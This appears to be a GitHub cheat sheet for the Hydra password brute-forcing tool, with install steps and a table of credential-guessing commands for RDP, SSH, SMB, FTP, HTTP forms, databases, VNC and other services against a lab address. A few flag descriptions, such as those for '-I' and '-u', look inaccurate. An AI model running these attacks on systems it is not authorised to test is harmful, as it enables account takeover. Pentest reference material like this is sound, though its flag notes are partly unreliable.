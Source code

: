 # Hydra


## Installation

```bash
    apt install hydra
```
## Visit Hydra's Github
#### Go to [hydra github](https://github.com/vanhauser-thc/thc-hydra) page
---
## Documentattion
#### Read [Hydra Manual](../manual/hydra.txt)
---

# Hydra command with example

| Services   | Hydra Commands |
|-----------|--------------|
| RDP       | hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 |
| SSH       | hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V |
| SMB       | hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V |
| FTP       | hydra -l root -P passwords.txt -f ftp://10.0.2.5 -V |
| HTTP Basic Auth | hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V |
| HTTP Post | hydra -L users.txt -P password.txt 10.0.2.5 http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V |
| IMAP      | hydra -l root -P passwords.txt -f imap://10.0.2.5 -V |
| MySQL     | hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V |
| POP3      | hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V |
| Redis     | hydra -P password.txt redis://10.0.2.5 -V |
| Rexec     | hydra -l root -P password.txt rexec://10.0.2.5 -V |
| Rlogin    | hydra -l root -P password.txt rlogin://10.0.2.5 -V |
| RSH       | hydra -L username.txt rsh://10.0.2.5 -V |
| RTSP      | hydra -l root -P passwords.txt <IP> rtsp |
| SMTP      | hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V |
| SMTP (SSL, Port 587) | hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V |
| Telnet    | hydra -l root -P passwords.txt [-t 32] <IP> telnet |
| VNC       | hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt -s <PORT> <IP> vnc |
---
# Parameter and Usage
| Parameter | Explanation |
|-----------|------------|
| `-l`      | Specifies a single username to use in the attack. |
| `-L`      | Specifies a file containing multiple usernames to use. |
| `-p`      | Specifies a single password to use in the attack. |
| `-P`      | Specifies a file containing multiple passwords to try. |
| `-s`      | Specifies a custom port for the service instead of the default one. |
| `-f`      | Stops the attack when the first valid credential is found. |
| `-V`      | Enables verbose mode, showing each attempt made. |
| `-t`      | Specifies the number of parallel threads to speed up attacks (default: 16). |
| `-u`      | Tries the next username only after all passwords for the current one fail. |
| `-o`      | Saves the output results to a file. |
| `-M`      | Specifies a file with multiple target IPs. |
| `-w`      | Sets the wait time between login attempts. |
| `-S`      | Forces SSL mode for encrypted connections. |
| `-v`      | Enables verbose mode (less detailed than `-V`). |
| `-I`      | Ignores failed login attempts (useful when accounts lock after failures). |
| `-R`      | Resumes a previously interrupted attack. |
| `-x`      | Generates a custom password list with defined lengths and characters. |

